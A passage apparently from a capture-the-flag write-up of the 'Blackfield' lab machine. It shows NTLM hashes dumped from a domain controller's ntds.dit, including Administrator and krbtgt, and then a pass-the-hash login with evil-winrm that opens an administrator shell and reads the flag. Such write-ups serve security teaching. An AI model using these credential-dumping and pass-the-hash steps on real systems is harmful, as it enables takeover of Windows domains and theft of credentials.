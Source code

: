 ```bash
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 35640a3fd5111b93cc50e3b4e255ff8c
[*] Reading and decrypting hashes from ntds.dit
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:f4a13e41e3ae7a47a76323a4c6ef8e33:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d3c02561bba6ee4ad6cfd024ec8fda5d:::
audit2020:1103:aad3b435b51404eeaad3b435b51404ee:600a406c2c1f2062eb9bb227bad654aa:::
support:1104:aad3b435b51404eeaad3b435b51404ee:cead107bf11ebc28b3e6e90cde6de212:::
BLACKFIELD.local\BLACKFIELD764430:1105:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
BLACKFIELD.local\BLACKFIELD538365:1106:aad3b435b51404eeaad3b435b51404ee:a658dd0c98e7ac3f46cca81ed6762d1c:::
```

Simply doing a PTH gives administrator's shell:
```bash
$ evil-winrm -i 10.10.10.192 -u administrator -H 184fb5e5178480be64824d4cd53b99ee

Evil-WinRM shell v2.3
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> type ..\desktop\root.txt
ce9c2c3f6b95a901604aea4254e94cba
```
